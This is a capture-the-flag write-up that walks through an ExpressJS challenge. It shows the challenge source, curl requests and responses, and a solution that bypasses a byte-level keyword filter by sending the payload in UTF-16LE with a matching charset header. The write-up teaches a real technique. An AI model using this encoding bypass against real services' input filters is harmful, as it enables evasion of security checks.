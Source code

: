 # Gynvael Coldwind ExpressJS challenge 4

Source: https://twitter.com/gynvael/status/1260499214225809409

## Challenge

We are provided with this code on the web page:
```javascript
const express = require('express')
const fs = require('fs')
const path = require('path')

const PORT = 5004
const FLAG = process.env.FLAG || "???"
const SOURCE = fs.readFileSync(path.basename(__filename))

const app = express()

app.use(express.text({
  verify: (req, res, body) => {
    const magic = Buffer.from('ShowMeTheFlag')

    if (body.includes(magic)) {
      throw new Error("Go away.")
    }
  }
}))

app.post('/flag', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  if ((typeof req.body) !== 'string') {
    res.end("What?")
    return
  }

  if (req.body.includes('ShowMeTheFlag')) {
    res.end(FLAG)
    return
  }

  res.end("Say the magic phrase!")
})

app.get('/', (req, res) => {
  res.statusCode = 200
  res.setHeader('Content-Type', 'text/plain;charset=utf-8')
  res.write("Level 4\n\n")
  res.end(SOURCE)
})

app.listen(PORT, () => {
  console.log(`Challenge listening at port ${PORT}`)
})
```

## Analysis

There are several things that reveal what needs to be done, here are some important points:
- `if (body.includes(magic))`
- `if ((typeof req.body) !== 'string')`
- `if (req.body.includes('ShowMeTheFlag'))`

First things first: the `typeof req.body` needs to be `string`. As per [documentation](https://expressjs.com/en/5x/api.html#req.body) the `req.body` will be `undefined` by default, but it's type will be determined per provided `Content-Type`. This can be easily tested and verified:
```sh
$ curl -d "ShowMeTheFlag" http://challenges.gynvael.stream:5004/flag -v
*   Trying 35.204.139.205:5004...
* TCP_NODELAY set
* Connected to challenges.gynvael.stream (35.204.139.205) port 5004 (#0)
> POST /flag HTTP/1.1
> Host: challenges.gynvael.stream:5004
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Length: 13
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 13 out of 13 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/plain;charset=utf-8
< Date: Wed, 13 May 2020 19:49:42 GMT
< Connection: keep-alive
< Content-Length: 5
< 
* Connection #0 to host challenges.gynvael.stream left intact
What?
```

After changing `Content-Type`:
```sh
$ curl -d "ShowMeTheFlag" http://challenges.gynvael.stream:5004/flag -vv -H "Content-Type: text/plain"
*   Trying 35.204.139.205:5004...
* TCP_NODELAY set
* Connected to challenges.gynvael.stream (35.204.139.205) port 5004 (#0)
> POST /flag HTTP/1.1
> Host: challenges.gynvael.stream:5004
> User-Agent: curl/7.68.0
> Accept: */*
> Content-Type: text/plain
> Content-Length: 13
> 
* upload completely sent off: 13 out of 13 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< X-Powered-By: Express
< Content-Security-Policy: default-src 'none'
< X-Content-Type-Options: nosniff
< Content-Type: text/html; charset=utf-8
< Content-Length: 742
< Date: Wed, 13 May 2020 19:51:33 GMT
< Connection: keep-alive
< 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Error: Go away.<br> &nbsp; &nbsp;at verify (/usr/src/app/app.js:16:13)<br> &nbsp; &nbsp;at /usr/src/app/node_modules/body-parser/lib/read.js:104:9<br> &nbsp; &nbsp;at invokeCallback (/usr/src/app/node_modules/raw-body/index.js:224:16)<br> &nbsp; &nbsp;at done (/usr/src/app/node_modules/raw-body/index.js:213:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/usr/src/app/node_modules/raw-body/index.js:273:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:322:22)<br> &nbsp; &nbsp;at endReadableNT (_stream_readable.js:1187:12)<br> &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:84:21)</pre>
</body>
</html>
* Connection #0 to host challenges.gynvael.stream left intact
```

What we have done here is: we specified that our body is `text/plain` from which Express determined that our body is of type `string` - therefore passing the first check.

Since we see that there is an error, this means that we have failed the verification part:
```
verify: (req, res, body) => {
    const magic = Buffer.from('ShowMeTheFlag')

    if (body.includes(magic)) {
        throw new Error("Go away.")
    }
}
```

Digging into the documentation further, there is a [note](https://expressjs.com/en/api.html#express.text) that there is a `type` property that defines what media type the middleware will parse and it defaults to our `text/plain` content type. This means that we cannot skip this verification and should find a way so that the two checks (`body.includes(magic)` and `req.body.includes('ShowMeTheFlag')`) interpret the data in a different way.

Well, since `body.includes(magic)` check compares `Buffer`s and `req.body.includes('ShowMeTheFlag')` check compares `string`s, we should be able to specify text in a way that the string gets transformed to `ShowMeTheFlag` when its sent to the server, but its byte content on wire is different. And then it hit me: we can specify a different charset in the `text/plain` content type.

## Solution

To solve this challenge, specify `ShowMeTheFlag` payload in a different charset and specify the charset that you used in the `Content-Type`.

This works because the `verify` function will check the raw byte content which will not be the same as `ShowMeTheFlag`:
```sh
echo "ShowMeTheFlag" | iconv -t UTF-16LE -o - | xxd
00000000: 5300 6800 6f00 7700 4d00 6500 5400 6800  S.h.o.w.M.e.T.h.
00000010: 6500 4600 6c00 6100 6700 0a00            e.F.l.a.g...
```

When the same input is checked with `req.body.includes('ShowMeTheFlag')`, the string will be interpreted by Express as the expected `ShowMeTheFlag`:

```
$ echo "ShowMeTheFlag" | iconv -t UTF-16LE -o - | curl -X POST --data-binary "@-" http://challenges.gynvael.stream:5004/flag -H "Content-Type: text/plain; charset=UTF-16LE"
CTF{||ButVerify()WasSupposedToProtectUs!||}
```
